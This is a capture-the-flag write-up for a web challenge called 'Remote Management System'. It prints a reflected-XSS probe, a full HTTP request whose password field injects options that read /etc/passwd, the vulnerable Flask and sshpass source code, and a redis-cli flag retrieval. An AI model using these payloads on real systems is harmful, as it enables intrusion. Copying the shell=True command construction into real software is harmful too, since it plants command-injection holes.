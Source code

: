 ```yaml
---
title: '[SpiderLabsCTF] Remote Management System'
published: true
tags: [writeup, web, rce, command_injection]
author: ishtar
---
```


# Remote Management System (Web)
At first, we provided real details in order to understand the application\'s logic.
    + Using `sshpass` utility, the server was connecting to an SSH server using the provided details
    + Upon login, the command `show config` was issued

We decided to test if the application would reflect back any output from the above command into the webpage. Thus, using `sudo cp /bin/cat /bin/show` we create a copy of the `cat` utility called `show` and using `echo "<script>aler(1)</script>" > config` we create the file that the server will request to read. Interestingly, the server reflected back the contents of the `config` file in the webpage and it was also vulnerable to XSS.

We tried several "payloads" in order to identify any other vulnerabilities like XXE, SSTI or characters that would break the applications logic. None of them worked.

Going back to the application, we tried to find a command injection vulnerability by manually trying to fuzz the available parameters using Burp. Good news, RCE was possible thus we started enumerating the server.

```
POST / HTTP/1.1
Host: spiderlabsctf.com:6060
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://spiderlabsctf.com:6060
Connection: close
Referer: http://spiderlabsctf.com:6060/
Upgrade-Insecure-Requests: 1

hostname=/&port=1&username=/&password=-w+less+-FX+/etc/passwd+%0a
```

After reading both `app.py` and `remoteapp.pyc` files (decompiled) we were unable to find the flag. We also used `grep FLAG -R /` in order to recursively check each file for the flag, without any luck.

`app.py`
```python
import sys
from remoteapp import remoteapp
from flask import Flask, request, render_template, Response
app = Flask(__name__)

@app.route("/", methods=['GET', 'POST'])
def manage():
    if len(request.form) > 0:
        output = remoteapp(request.form)
        return render_template('home.html', output=output)
    else:
        return render_template('home.html')
@app.route('/css/<path:path>')
def send_css(path):
    return Response(open("css/%s" % path, "r").read(), mimetype='text/css')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(sys.argv[1]))
```

`remoteapp.py (decompiled)`
```python
import subprocess, re, redis
from flask import Markup

def remoteapp(data):
    try:
        password = check_param(data['password'])
        username = check_param(data['username'])
        hostname = check_param(data['hostname'])
        port = int(data['port'])
        cmd = 'sshpass -p %s ssh -o StrictHostKeyChecking=no -p %s %s@%s show config' % (password, port, username, hostname)
        print cmd
        output = subprocess.Popen([cmd], shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
        stdout, stderr = output.communicate()
        return Markup("<div class='alert alert-warning'>%s</div>" % stdout)
    except:
        return Markup("<div class='alert alert-danger'>Could not fetch remote data</div>")


def check_param(data):
    if not re.match('^[a-zA-Z0-9 \\.:/\\-]*$', data):
        print '%s failed regex check' % data
        save_query(data)
        raise Exception('regex violation')
    return data


def save_query(data):
    instance = redis.StrictRedis(host='127.0.0.1', db=0)
    instance.set(data, data)
```

Finally, we saw that a redis server was running. Issuing a simple `redis-cli get FLAG` revealed the flag.

-ishtar
-CYberMouflons

